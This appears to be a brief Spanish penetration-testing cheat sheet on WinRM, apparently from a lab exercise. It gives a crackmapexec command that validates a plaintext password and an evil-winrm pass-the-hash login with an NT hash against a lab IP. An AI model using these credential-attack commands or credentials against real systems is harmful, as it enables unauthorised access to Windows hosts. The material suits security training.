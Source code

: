 # WINRM

## Validación de credenciales

```null
crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
```

## Autenticación por NT

```null
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```